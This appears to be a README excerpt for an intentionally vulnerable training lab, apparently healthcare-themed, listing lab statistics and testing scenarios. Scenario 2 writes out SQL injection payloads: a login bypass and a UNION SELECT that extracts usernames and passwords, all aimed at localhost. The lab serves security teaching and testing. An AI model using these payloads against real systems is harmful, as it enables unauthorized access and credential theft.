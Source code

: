 
## 📊 Lab Statistics

| Metric | Value |
|--------|-------|
| **Total Files Created** | 40+ |
| **Lines of Code** | 3,500+ |
| **Services** | 8 |
| **Networks** | 2 |
| **Volumes** | 12 |
| **Documented Vulnerabilities** | 25+ |
| **Attack Chains** | 4 |
| **Synthetic Patient Records** | 10 |
| **Test User Accounts** | 10 |
| **API Endpoints** | 15+ |

---

## 🎯 Testing Scenarios

### Scenario 1: External Reconnaissance
```bash
# Port scanning
nmap -p- localhost

# Service enumeration
nmap -sV -p 8080,3000,3306,2222,21,389 localhost

# Web enumeration
curl http://localhost:8080
curl http://localhost:3000/api/info
```

### Scenario 2: Initial Access via Web
```bash
# SQL injection authentication bypass
curl -X POST http://localhost:8080/index.php \
  -d "username=admin' OR '1'='1' --" \
  -d "password=anything"

# Data extraction
curl "http://localhost:8080/search.php?search=' UNION SELECT username,password,email,role,NULL FROM users --"
```
